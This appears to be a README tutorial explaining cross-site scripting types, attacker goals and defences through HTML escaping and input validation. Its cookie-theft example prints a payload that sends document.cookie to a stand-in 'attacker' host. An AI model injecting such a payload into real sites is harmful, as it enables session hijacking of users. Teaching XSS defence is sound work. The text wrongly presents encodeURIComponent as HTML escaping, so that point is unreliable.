

# HTML Injections

##What are HTML script injections?

HTML injections are more commonly known as **Cross-site Scripting** – aka **XSS** (not CSS, to avoid confusion with stylesheets!). XSS refers to a **code-injection attack**, in which an attacker executes malicious scripts in a legitimate website by injecting code into a HTML element, most usually a user input form. If the website directly includes user input in its pages, the attacker can input a string that will be treated as code by the victim's browser and executed.

The two most common types of XSS are **Non-Persistent XSS** and **Persistent XSS**:

####Non-Persistent XSS

* The most regularly seen cross-site vulnerability
* Also known as **Reflected XSS**.
* The attack is carried out through a single request/response cycle: the payload is not stored anywhere, but returned as part of the response HTML that the server sends.

####Persistent XSS

* Occurs when XSS vectors are stored in the compromised website's database and executed when a certain page is opened by the user.
* More harmful than non-persistent XSS, as the script will quietly automatically execute whenever a user opens the infected page.

A third category exists - **DOM-based XSS**. This occurs when the XSS vector executes as a result of DOM modification on a website in a user's browser. DOM-based XSS is the most advanced and least common type of XSS.

All three forms of XSS attack have a similar process:

An attacker generally has one of four aims when executing an XSS attack:

* Session hijacking: Stealing the cookie(s) of a victim in order to impersonate them
* Browser hijacking: Redirecting a victim's browser to a web page specified by the attacker, or having the browser perform certain actions in a web app
* Redirecting form actions: Compromising a form to have user information sent to their computer alongside the intended destination
* Changing the appearance of a web page: Modifying a web page to lure a victim into giving up information

##What are some examples?

##Video example

For a video example that demonstrates an XSS attack and basic server validation please see our [video tutorial](https://www.youtube.com/watch?v=Ln-d1T4HUh4&feature=youtu.be).

##Readme example

Let's say an attacker wants to steal a victim's cookies. This can be done through a persistent XSS attack. The attacker's goal is to have the victim's browser parse this **malicious script**:

````

The script triggers an HTTP request to the attacker's server. The URL includes the victim's cookies as a query paramater, which the attacker can then extract from the request when it arrives at their server and use to impersonate the victim.

The attacker submits the malicious script as a user input to one of the website's forms, thus inserting the script into the website's database through a `POST` request. For instance, the script could be posted as a comment on an unsecure blog.

When the victim visits the compromised blog, their browser makes a `GET` request in order to access the comments. The blog's HTTP response includes the malicious script, which executes and triggers a HTTP request to the attacker's server.

##How can you protect against them in your apps?

XSS attacks can be prevented through **secure input handling**. This can be performed in two ways:

####Encoding
Encoding user input ensures that the browser interprets it only as data, not as code. This is most commonly done through **HTML escaping**, in which special characters are escaped: ``&`` becomes ``&amp;``, ``<`` becomes ``&lt;``, and ``>`` becomes ``&gt;`` for instance.

If our attacker's malicious script was encoded, the browser would read it as:

``&lt;script&gt;
window.location='http://attacker/?cookie='+document.cookie
&lt;/script&gt;``

And it wouldn't run.

JavaScript has built in functions to encode and decode special characters in a string: ``encodeURIComponent()`` and ``decodeURIComponent()``.

####Validation

Encoding should be your first line of defence against XCC attacks, but it has some limitations. For instance, if user input is used to provide URLs, an attacker could still insert a URL beginning with ``javascript:``, which would execute code embedded in the address. In this case, you would want to bolster your defence with validation.

Validation is the act of filtering user input to ensure any malicious elements are removed. The easiest way to do this is through **whitelisting** - defining an allowed pattern and marking any input that doesn't match it as invalid. For instance, a form to accept a user's phone number could mark any input that contained something other than a number as invalid. In the case above, a URL would be marked as invalid if it contained a protocol other than ``HTTP:`` or ``HTTPS:``

There are two approaches you can take to invalid inputs – rejection and sanitation:

* Rejection will, as the name suggests, simply reject the input, preventing it from being used elsewhere in the website
* Sanitation will remove all invalid parts of the input, with the remaining input being free to be used normally by the website

While rejection is simplest to implement, sanitation often provides the best user experience – if a user includes hyphens while submitting their credit card number, for example, a sanitation routine that removes all non-digit characters will prevent an XSS attack without forcing the user to resubmit.
